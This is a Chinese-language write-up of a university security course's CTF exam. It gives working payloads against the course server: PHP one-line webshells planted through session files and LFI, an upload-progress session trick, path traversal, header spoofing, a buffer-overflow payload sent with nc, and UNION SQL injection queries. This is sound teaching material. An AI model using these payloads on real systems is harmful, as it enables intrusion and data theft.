 ```yaml
---
title : 107 ta exam writeup
tags: 大學,助教,安全程式
---
```


# Misc
## Hidden Domain
crt.sh會記錄所有申請https的domain
使用% 找子域名
![](https://i.imgur.com/rmXoVxa.png)
找到有一個很長的域名有簽https
![](https://i.imgur.com/S3GxAYn.png)
打開
![](https://i.imgur.com/BpboCPk.png)


## 一張圖片
下載下來用小畫家 填滿
![](https://i.imgur.com/CzAzw1g.png)
![](https://i.imgur.com/41K0wEt.png)

## Easy Reverse
strings 下來 拚湊一下
![](https://i.imgur.com/Pq1HOW9.png)
`CTF{easyisntit}`


# 網頁
## Jump 10101
`curl http://140.134.25.138:10101/ -i`
![](https://i.imgur.com/VkuNP7a.png)
發現他轉跳到index0.php
`curl http://140.134.25.138:10101/index0.php -i`
多跳幾次

![](https://i.imgur.com/NIBTOBP.png)




## Session Easy 10102
只是把session 給他就拿到flag了
http://140.134.25.138:10102/?fox=自己session_id

![](https://i.imgur.com/7fJYfBL.png)


## Session Get Shell 10103
foxs 放 一句話木馬
fox 放 /tmp/sess_自己的session
cmd 參數放 指令
http://140.134.25.138:10103/?foxs=%3C?php%20system($_GET[%27cmd%27]);?%3E&fox=/tmp/sess_bhfmu5o6dk63llt5n1n83vitth&cmd=ls%20/

![](https://i.imgur.com/KsVEFk6.png)

再來把cmd 改 ls /flag
![](https://i.imgur.com/NECi0Ek.png)

再來改 cmd 改 cat /flag/flag.txt
![](https://i.imgur.com/wOVOj3G.png)


## Session Hard 10104 極難
取自Hitcon 2018想法
題目發現 session是關閉的
所以要用特殊方式去觸發session打開
php 有個東西叫 session.upload_progress
是打開的
所以只要用
`PHP_SESSION_UPLOAD_PROGRESS` 去上傳檔案
會打開php session

`curl http://140.134.25.138:10104/ -H 'Cookie: PHPSESSID=fox' -F 'PHP_SESSION_UPLOAD_PROGRESS=foxsarecute'  -F 'file=@./上傳檔案路徑'`

注意：`session.upload_progress.cleanup`是打開的
過一陣子session會被刪掉

![](https://i.imgur.com/IgsPPF0.png)

**這漏洞讓LFI=GET SHELL**

參考資料：https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html

## flask在搞? 10105 
沒有過濾 `../`跳脫資料夾導致資料外洩

用nc
![](https://i.imgur.com/apFEyO2.png)

## Write Script 10106
經觀察header 發現他有跟我講下次用的method
![](https://i.imgur.com/7QJJdUp.png)


寫python爬蟲 來自動跑不同http method

[requests自訂method](http://docs.python-requests.org/en/master/user/advanced/)
```python=
from requests import Request, Session
import requests
s = Session()
url ="http://140.134.25.138:10106/"
a=requests.get(url)
next_method = a.headers['Next_Method']
flag = a.text
while True:
        req = Request(next_method, url)
        prepped = s.prepare_request(req)
        settings = s.merge_environment_settings(prepped.url, None, None, None, None)
        resp = s.send(prepped, **settings)
        flag += resp.text
        if resp.text=="}":
                print (flag)
                break
        next_method = resp.headers['Next_Method']
```

## APK 10107
安裝apk 
![](https://i.imgur.com/lDKE0jO.png)

攔封包
![](https://i.imgur.com/hV4aWER.png)

## JS so HARD 10108
查看原始碼發現一個DATA
和一個自訂一javascript

![](https://i.imgur.com/FBCqZVx.png)

打開js看起來是用來解碼的

![](https://i.imgur.com/YF6kaJO.png)

經google發現 他是用packjs加密了
去找[unpack js](http://matthewfl.com/unPacker.html)

![](https://i.imgur.com/tUKbU8Y.png)

得到一串js
經解析 看到最後有一段json 
把它存到另一個變數看看
![](https://i.imgur.com/1W34iv4.png)

到console把剛剛修改的js覆蓋 在執行一次
最後把變數拔出來
![](https://i.imgur.com/RH4fdUT.png)

## Fake IP 10109
開場 又是這個
![](https://i.imgur.com/B5d1mfE.png)

修改`X-Forwarded-For: 127.0.0.1`
發現
![](https://i.imgur.com/iB2A7lI.png)

修改Host 
![](https://i.imgur.com/diCJ4qL.png)


## Session Get Shell 2 10110
發現 要從 session id下手
結果發現特殊符號不能直接拿來當session id

把一句話木馬 拿去base64
`<?php system($_GET['cmd']);?>d`
d是為了讓base64出來解果不出現`=`
編碼後
`PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k`
丟到 sessionid
![](https://i.imgur.com/3MeFkoT.png)

確定檔案上去了
http://140.134.25.138:10110/?fox=/tmp/sess_PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k
![](https://i.imgur.com/T0hDRl6.png)


使用php stream base64 解碼
http://140.134.25.138:10110/?fox=php://filter/convert.base64-decode/resource=/tmp/sess_PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k&cmd=ls
![](https://i.imgur.com/xaorkdj.png)

最後 `ls /`
http://140.134.25.138:10110/?fox=php://filter/convert.base64-decode/resource=/tmp/sess_PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k&cmd=cat%20/flag/flag.txt
找到flag
![](https://i.imgur.com/2fFYBls.png)

## pwn 10111
確定 debug位子
![](https://i.imgur.com/SUC2guQ.png)
送過去
`python -c "print('a'*0x18+'\x66\x07\x40\x00\x00\x00\x00\x00')" -| nc 140.134.25.138 10111
`
![](https://i.imgur.com/e3583xK.png)


## LFI 10122
LFI漏洞
用php stream 拿到原始碼
http://140.134.25.138:10122/?page=php://filter/convert.base64-encode/resource=index.php
![](https://i.imgur.com/LdNb5e1.png)
拿去decode
![](https://i.imgur.com/iWP4KqR.png)

## SQL Injection II 10113
先確定 資料庫名稱
`'  union select 'a','a', schema_name FROM information_schema.schemata;#`
![](https://i.imgur.com/zCIVuUI.png)

再確定表格名稱
`a'  union select 'a','a', table_name from information_schema.tables where table_schema = 'ctf';`
![](https://i.imgur.com/jKKMdOp.png)

最後找到欄位
`'  union select 'a','a', column_name  FROM information_schema.columns WHERE table_name = 'ctfffff';`
![](https://i.imgur.com/GPvTqmV.png)

`'  union select 'a','a', flagggggggggggg from ctfffff ;`
![](https://i.imgur.com/dO3DNiv.png)


